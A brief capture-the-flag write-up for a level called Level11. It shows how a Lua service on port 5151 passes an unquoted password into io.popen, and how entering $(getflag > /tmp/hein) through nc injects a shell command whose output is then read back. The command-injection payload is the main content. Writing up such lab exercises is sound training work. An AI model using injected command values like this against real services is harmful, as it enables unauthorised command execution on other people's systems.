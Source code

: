 # Solution

Level11 is .lua scipt that let us connect `nc localhost 5151` and write a password.

But no matter find the password cause this line of code is execute: `prog = io.popen("echo "..pass.." | sha1sum", "r")`

`io.popen()` execute some code and `"..pass.."` isnt sigle quoted.

```bash
$>nc 127.0.0.1 5151
Password : $(getflag > /tmp/hein)
cat /tmp/hein
```
